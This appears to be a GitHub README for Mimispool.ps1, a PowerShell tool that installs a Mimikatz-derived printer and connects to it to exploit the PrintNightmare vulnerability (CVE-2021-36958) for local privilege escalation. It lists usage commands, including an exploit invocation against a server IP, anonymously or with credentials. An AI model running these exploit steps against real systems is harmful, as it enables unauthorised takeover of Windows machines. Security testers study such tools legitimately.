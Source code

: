 # Mimispool.ps1

Just a very small script to install, uninstall or connect to gentilwiki's Mimispool printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
Install-KiwiPrinter
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

![Proof of Concept](img/poc.png)
